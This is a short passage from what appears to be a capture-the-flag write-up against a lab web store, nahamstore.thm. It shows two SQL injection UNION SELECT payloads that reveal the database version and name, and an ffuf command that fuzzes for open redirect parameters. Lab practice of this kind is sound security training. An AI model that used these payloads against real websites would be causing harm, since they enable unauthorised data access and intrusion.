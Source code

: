 ![image.png](image%2015.png)

**PAYLOAD:**

```jsx
UNION SELECT NULL,@@version,NULL,NULL,NULL-- -
```

![image.png](image%2016.png)

**PAYLOAD:**

```jsx
UNION SELECT NULL,database(),NULL,NULL,NULL-- -
```

> **Open Redirect Phase**
> 

`ffuf -u 'http://nahamstore.thm/?FUZZ=https://google.com' -c -ic -t 50 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -mc 200,301,302,303 -fl 83`
